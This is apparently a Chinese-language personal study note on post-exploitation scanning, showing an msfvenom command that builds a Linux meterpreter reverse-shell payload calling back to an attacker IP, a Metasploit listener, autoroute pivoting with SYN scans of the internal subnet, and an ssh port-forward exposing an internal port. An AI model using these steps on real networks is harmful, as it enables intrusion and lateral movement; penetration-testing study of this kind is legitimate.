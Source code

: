 ```yaml
---
title: msf内网扫描
date: 2019-10-18 23:42:23
tags: 
- 渗透测试
categories: 学习笔记
---
```

# 前言
用于解决内网渗透时打下公网主机时进行内网扫描。
<!--more-->
# 建立meterpreter环境
## 生成反向连接elf
```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost="Your_IP" lport="Your_Port"  -f elf -o shell
```
-p 后接使用的payload，需要和后面msf的handler监听时使用的payload一致。后面的lhost和lport就是正常的设置参数。
## 设置msf开始监听
```
msf> use exploit/multi/handler
msf> set payload "Your_payload"
msf> set lhost 0.0.0.0
msf> set lport "Your_Port"
```
接下来只要在目标机器上执行生成的elf文件，就可以接到meterpreter反弹环境了
# 使用msf进行跳板扫描
```
meterpreter> run get_local_subnets  //取得目标内网网端
meterpreter> run autoroute -s "Target_subnet" //添加自动转发路由
meterpreter> background //将当前会话置于后台
msf> use auxiliary/scanner/portscan/syn //使用syn半开扫描模块
```
只要设置了meterpreter的路由，则在会话持续期间的流量都可以通过路由进行转发。之后就可以利用msf的扫描模块进行内网扫描了。
# 利用ssh进行端口映射
这个没什么说的，识别出了内网目标后简单的利用
```
ssh -fgCNL out_port:Tar_IP:Tar_port user@out_ip
```
就可以把法王out_ip:out_port的流量转发到目标ip的目标端口上，等于暴露了内网的一个端口。
本地复现的时候这一句要在out_ip的靶机上执行才能正常，不知道原因。
